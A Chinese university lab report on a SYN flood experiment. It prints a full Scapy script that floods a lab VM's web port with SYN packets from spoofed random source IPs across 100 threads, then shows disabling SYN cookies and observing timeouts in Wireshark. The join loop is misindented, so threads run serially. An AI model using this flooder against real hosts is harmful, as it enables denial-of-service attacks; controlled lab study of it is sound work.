 ```yaml
---
title: 网络安全实验报告6——使用Python实现SYN Flood攻击实验
categories:
  - QFNU
  - 网络安全
  - 实验报告
tags:
  - 网络安全原理实验报告
  - Python
  - SYN Flood攻击
  - QFNU
cover: 'https://repository-images.githubusercontent.com/265141058/fcc8fa00-a38c-11ea-8c49-332680847b31'
abbrlink: 8790bb83
date: 2024-04-28 11:32:51
---
```


## 实验环境

- 操作系统：Windows 11 23H2

- 抓包工具：WireShark

- 虚拟化软件：VMware Workstation 16

- 虚拟机操作系统：Ubuntu 18.04.1

## 实验过程

### 攻击代码

使用 Python 编写的实现 SYN Flood 攻击的代码：

```python
from scapy.all import *
from random import randint
import threading


def randomIP():
    ip = ".".join(map(str, (randint(0, 255) for _ in range(4))))
    return ip


def randInt():
    x = randint(1000, 9000)
    return x


def SYN_Flood(dstIP, dstPort, counter):
    total = 0
    print("正在发送数据包……")
    for x in range(0, counter):
        s_port = randInt()
        s_eq = randInt()
        window = randInt()

        IP_Packet = IP()
        IP_Packet.src = randomIP()
        IP_Packet.dst = dstIP

        TCP_Packet = TCP()
        TCP_Packet.sport = s_port
        TCP_Packet.dport = dstPort
        TCP_Packet.flags = "S"
        TCP_Packet.seq = s_eq
        TCP_Packet.window = window

        send(IP_Packet / TCP_Packet, verbose=0)
        total += 1
        print("\n该线程发送的数据包个数：%i\n" % total)


def main():
    dstIP, dstPort = '192.168.10.131', 8000

    num_threads = 100
    counter_per_thread = 100000
    threads = []

    for _ in range(num_threads):
        t = threading.Thread(target=SYN_Flood, args=(dstIP, dstPort, counter_per_thread))
        t.start()
        threads.append(t)

        for t in threads:
            t.join()


if __name__ == "__main__":
    main()

```

### 启动虚拟机

1.  查看子网名称和子网地址

    ![子网名称和子网地址](../img/CyberSecurity/6-SYN-flood/image.png)

2.  进入 Ubuntu 虚拟机，打开终端

3.  查看 IP 地址

    ![IP地址](../img/CyberSecurity/6-SYN-flood/image-1.png)

4.  关闭 SYN Cookies 机制

    ![关闭SYN Cookies机制](../img/CyberSecurity/6-SYN-flood/image-2.png)

5.  开启一个简易的 Web 服务

        ![开启一个简易的Web服务](../img/CyberSecurity/6-SYN-flood/image-3.png)

6.  现在宿主主机就可以通过 IP 地址+端口号访问这个 Web 服务了。

    ![访问Web服务](../img/CyberSecurity/6-SYN-flood/image-4.png)

### 抓包

1.  打开 Wireshark，选择网卡，开始抓包

    ![抓包](../img/CyberSecurity/6-SYN-flood/image-5.png)

2.  编辑攻击脚本，将目标 IP 地址和端口号改为宿主主机的 IP 地址和 Web 服务的端口号

    ![修改攻击脚本](../img/CyberSecurity/6-SYN-flood/image-6.png)

3.  运行攻击脚本，开始发送 SYN 包

    ![运行攻击脚本](../img/CyberSecurity/6-SYN-flood/image-7.png)

4.  访问 Web 服务，查看服务器的响应情况

    ![访问Web服务](../img/CyberSecurity/6-SYN-flood/image-8.png)

5.  停止抓包，查看攻击结果

    ![停止抓包](../img/CyberSecurity/6-SYN-flood/image-9.png)

可以发现，Wireshark 捕捉到大量的 SYN 数据包，服务端由于大量的 SYN 请求，无法及时响应，导致连接超时。

